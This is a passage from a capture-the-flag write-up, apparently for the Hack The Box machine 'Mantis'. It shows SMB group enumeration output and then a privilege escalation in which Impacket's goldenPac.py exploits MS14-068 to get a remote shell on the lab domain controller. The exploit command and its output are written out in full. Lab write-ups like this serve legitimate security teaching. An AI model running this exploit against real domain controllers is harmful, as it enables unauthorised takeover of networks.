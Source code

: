SMB         10.10.10.52     445    MANTIS           Cert Publishers                          membercount: 0
SMB         10.10.10.52     445    MANTIS           Enterprise Admins                        membercount: 1
SMB         10.10.10.52     445    MANTIS           Schema Admins                            membercount: 1
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Cryptographic Operators                  membercount: 0
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Remote Desktop Users                     membercount: 1
SMB         10.10.10.52     445    MANTIS           Replicator                               membercount: 0
SMB         10.10.10.52     445    MANTIS           Backup Operators                         membercount: 0
SMB         10.10.10.52     445    MANTIS           Print Operators                          membercount: 0
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Administrators                           membercount: 3
</code></pre>

NetExec's output let us know that:

1. `james` is a domain and not a local user.
2. SMB includes just the default shares.
3. There are no other users than `james` and the default accounts.
4. There are some interesting domain groups but we can't do anything with them at the moment.

## Privilege Escalation

### MS14-068

We know from our Nmap scan that the operating system is **Windows Server 2008 R2 Standard 7601 Service Pack 1**. Upon searching for "_Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 exploit domain controller"_ the [MS14-068 (Critical)](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-068) vulnerability comes up which is a **vulnerability in Kerberos that could allow elevation of privilege**.&#x20;

We can use Impacket's [goldenPac](https://github.com/fortra/impacket/blob/master/examples/goldenPac.py) script to exploit this flaw.

```
$ /usr/local/bin/goldenPac.py HTB.LOCAL/james@mantis
/usr/local/bin/goldenPac.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.12.0.dev1+20231027.123703.c0e949fe', 'goldenPac.py')
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file FqgDtbBE.exe
[*] Opening SVCManager on mantis.....
[*] Creating service odQI on mantis.....
[*] Starting service odQI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```